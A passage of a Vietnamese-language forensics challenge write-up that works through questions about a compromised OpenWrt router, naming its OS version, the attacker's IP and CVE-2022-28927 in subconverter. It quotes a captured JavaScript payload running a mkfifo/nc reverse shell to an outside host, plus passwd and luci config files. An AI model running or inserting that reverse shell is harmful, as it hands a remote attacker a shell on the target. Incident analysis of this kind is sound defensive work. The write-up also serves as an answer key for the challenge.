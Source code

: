 Phiên bản hđh router đang sử dụng là `23.05.4`

`23.05.4`

## Q2: What is the IP address of the attacker's machine?

Tiếp tục xem qua các file trong hệ thống thì trong `passwd` thấy rằng chỉ có duy nhất người dùng `root` có thể thực hiện lệnh shell. Vậy nếu hacker muốn thực hiện lệnh trên con router sẽ phải qua `root`, cho nên vào trong thư mục `root/` để kiểm tra

```
root:x:0:0:root:/root:/bin/ash
daemon:*:1:1:daemon:/var:/bin/false
ftp:*:55:55:ftp:/home/ftp:/bin/false
network:*:101:101:network:/var:/bin/false
nobody:*:65534:65534:nobody:/var:/bin/false
ntp:x:123:123:ntp:/var/run/ntp:/bin/false
dnsmasq:x:453:453:dnsmasq:/var/run/dnsmasq:/bin/false
logd:x:514:514:logd:/var/run/logd:/bin/false
ubus:x:81:81:ubus:/var/run/ubus:/bin/false
```

Người dùng root có tải phần mềm `subconverter` và trong phần cache của chương trình đó có lệnh thực hiện một reverse shell bằng javascript `root/subconverter/cache/dad176d5807526bf19069ecce4f14bfe`

```js
function parse(x) {
        os.exec([ "sh", "-c", "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 156.238.233.47 31426 >/tmp/f" ], { file: "sh" })
}
```

Hàm này mở 1 reverse shell kết nối đến **156.238.233.47:31426**, đây cũng chính là IP của hacker

`156.238.233.47`

## Q3: What is the CVE number of the vulnerability exploited by the attacker?

Biết được hacker đã sử dụng `subconverter` để tạo reverse shell, tìm `subconverter rce cve` trên google sẽ thấy kết quả **[CVE-2022-28927](https://www.cvedetails.com/cve/CVE-2022-28927)**

> A remote code execution (RCE) vulnerability in Subconverter v0.7.2 allows attackers to execute arbitrary code via crafted config and url parameters.

`CVE-2022-28927`

## Q4: What program's configuration was modify by the attacker to do persistence?

Trước hết kiểm tra trong `/etc/config` xem có những phần mềm nào nổi bật không, thấy có `luci`, đây là giao diện cấu hình của openwrt

``` 
config extern 'flash_keep'
	option uci '/etc/config/'
	option dropbear '/etc/dropbear/'
	option openvpn '/etc/openvpn/'
	option passwd '/etc/passwd'
	option opkg '/etc/opkg.conf'
	option firewall '/etc/firewall.user'
	option uploads '/lib/uci/upload/'
```
